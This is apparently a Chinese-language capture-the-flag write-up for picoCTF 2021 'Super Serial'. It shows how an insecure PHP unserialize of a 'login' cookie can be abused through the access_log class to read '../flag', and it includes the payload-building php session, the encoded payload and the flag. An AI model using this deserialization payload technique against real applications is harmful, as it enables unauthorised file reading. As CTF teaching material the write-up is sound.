    ?>
    ```
    :::
這一題的直覺是用不安全的反序列化達到LFI或是RCE，問題是要利用哪一個class，可以看到這幾個file中只有`authentication.phps`中的`access_log`和`cookie.phps`中的`permission`，而考慮到hint提到flag的相對位置，代表應該可以確定是LFI的思路，則我們可以找有讀取file的class也就是`access_log`，另外`authentication.phps`也能單獨access，剩下的事情就簡單了，就construct一個exploit payload然後按照decode的順序反著做一次就可以了

Note: 我再講詳細一點好了，不管是`index.phps`或是`authentication.phps`都會在一開始require `cookie.php`，代表他會執行以下這段程式，並且進行反序列化，而會用到LFI的class method是在`authentication.phps`中，所以我們要訪問的網頁應該是這個，然後要創建login cookie是因為`cookie.phps`需要這個東西才會進入判斷式
```php
if(isset($_COOKIE["login"])){
    try{
        $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
        $g = $perm->is_guest();
        $a = $perm->is_admin();
    }
    catch(Error $e){
        die("Deserialization error. ".$perm);
    }
}
```

## Exploit - Unserialization
1. php -a
    ```php
    $ php -a
    Interactive mode enabled

    php > class access_log
    php > {
    php {     public $log_file;
    php {
    php {     function __construct($lf) {
    php {         $this->log_file = $lf;
    php {     }
    php {
    php {     function __toString() {
    php {         return $this->read_log();
    php {     }
    php {
    php {     function append_to_log($data) {
    php {         file_put_contents($this->log_file, $data, FILE_APPEND);
    php {     }
    php {
    php {     function read_log() {
    php {         return file_get_contents($this->log_file);
    php {     }
    php { }
    php > echo urlencode(base64_encode(serialize(new access_log("../flag"))));
    TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
    ```
2. 建一個cookie然後access authentication.phps
![](https://hackmd.io/_uploads/ByM5qVkdh.png)

Flag: `picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}`


## Reference
[ picoCTF 2021 Super Serial ](https://youtu.be/Eu3nFVAwAK0)